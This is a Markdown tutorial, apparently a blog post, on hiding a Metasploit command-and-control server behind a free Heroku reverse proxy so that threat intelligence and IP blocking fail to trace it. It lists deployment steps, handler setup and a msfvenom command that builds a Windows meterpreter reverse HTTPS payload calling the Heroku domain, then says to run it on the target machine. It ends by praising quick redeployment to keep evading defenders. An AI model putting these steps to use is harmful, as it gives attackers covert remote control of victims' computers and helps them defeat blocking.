 ```yaml
---
title: Hide C2 Server Using Heroku (Simple/Zero Cost)
description: Learn how to hide your Metasploit Framework C2 server using Heroku - a simple and zero-cost solution compared to domain fronting, CDN, and redirector methods.
cover: /img/utilize_heroku_to_hide_c2_server_simple_zero_cost/1.webp
---
```


# Hide C2 Server Using Heroku (Simple/Zero Cost)

# Preface

This article introduces how to use Heroku to achieve the hiding of C2 services in the metasploit-framework. Compared with the three popular methods of "domain fronting", "CDN",
and "redirection" in the industry for hiding C2, the method introduced in this article is simple to operate and has lower costs (whether it is time cost or financial cost) in the
process of confrontation with "threat intelligence" and "IP blocking".

# Currently Popular C2 Hiding Technologies

"Domain fronting", "CDN", and "redirection" [](https://me.csdn.net/qq_41874930) are the three currently popular C2 hiding technologies. Shanfenglan7 has made a very detailed
explanation in his
article [The Differences in Hiding C2 Using Three Technologies of CDN, Domain Fronting, and Redirection](https://blog.csdn.net/qq_41874930/article/details/109008708). The author
found through actual testing of the three technologies that each technology has some shortcomings.

## Hiding C2 with CDN

The preparatory work for hiding C2 using CDN is roughly as follows:

+ Need to purchase a domain name (you can use a free one through [https://www.freenom.com/](https://www.freenom.com/))
+ Need to purchase CDN services (you can use the free [https://www.cloudflare.com/](https://www.cloudflare.com/))
+ Need to modify DNS records at the CDN service provider
+ Need to wait for the DNS records to take effect (if your domain name is bound to other IPs, this operation requires several hours)

It can be seen that although zero cost can be achieved by combining free services, there are many configuration operations required during the implementation process, and the time
cost and mental cost are too high. If the domain name is not registered anonymously, there is a risk of being traced and sourced.

## Hiding C2 with Domain Fronting

The preparatory work for hiding C2 using domain fronting is roughly as follows:

+ Need to purchase a domain name (you can use a free one through [https://www.freenom.com/](https://www.freenom.com/))
+ Need to purchase CDN services (you can use the free [https://www.cloudflare.com/](https://www.cloudflare.com/))
+ Need to modify DNS records at the CDN service provider
+ Need to wait for the DNS records to take effect (if your domain name is bound to other IPs, this operation requires several hours)
+ Need to know other high-reputation domain names or IPs on the CDN
+ Need to modify the malleable profile file

Domain fronting requires more additional operations than CDN, and the current mainstream CDN service providers have begun to block domain fronting technology.

## Hiding C2 with Redirection

The preparatory work for hiding C2 using redirection is roughly as follows:

+ Need two VPS
+ Use apache or nginx to configure redirection forwarding
+ Need to modify the malleable profile file

Redirection requires some additional encoding and deployment work, and it also needs to expose the IP address of one VPS to "threat intelligence", which may be traced back, and in
fact, the goal of hiding C2 has not been achieved.

# Hiding C2 Server Using Heroku

Heroku is a cloud platform as a service that supports multiple programming languages. Simply put, it can deploy docker containers for free and open web services to the Internet.
The following are the operation steps.

+ First, register a Heroku account. Click to register an account through [https://dashboard.heroku.com](https://dashboard.heroku.com/) (it is recommended to use gmail).
+ After successful registration, log in. After logging in, click on
  the [deployment link](https://dashboard.heroku.com/new?template=https://github.com/FunnyWolf/nginx-proxy-heroku).
+ Fill in the app name as "mydiydomain" (it can be customized. The name is the prefix of the subsequent domain name), and fill in the TARGET environment variable as the C2 handler
  address.

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\1.webp)

+ Then click "Deploy app" and the system will deploy automatically.
+ Add a handler in the metasploit-framework and configure as shown in the figure.

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\2.webp)![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\3.webp)

+ Execute "to_handler" to generate a listener.
+ Use the following command to generate a payload:

```bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=mydiydomain.herokuapp.com LPORT=443 -f exe -o ~/payload.exe
```

+ Upload and run it on the target machine.

# Running Effect

+ View the session in the metasploit-framework as follows. It can be seen that the link address of the session is the heroku transit server address.

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\4.webp)

+ The packet capture effect on the target machine is as follows:

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\5.webp)

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\6.webp)

![](img\utilize_heroku_to_hide_c2_server_simple_zero_cost\7.webp)

# Summary

From a technical perspective, hiding C2 with Heroku is very simple. Use the Heroku service to deploy an nginx reverse proxy service. The payload connects to Heroku's nginx, and
nginx forwards the traffic to C2. The specific advantages are as follows:

+ Only need to register a free Heroku account.
+ No need to register or purchase a domain name.
+ It comes with a trusted SSL certificate (the Heroku domain comes with a certificate).
+ If the IP address is blocked, you can delete the original Heroku app and redeploy the Heroku app (about 30s), and continuously confront the defenders.
+ The operation steps are simple.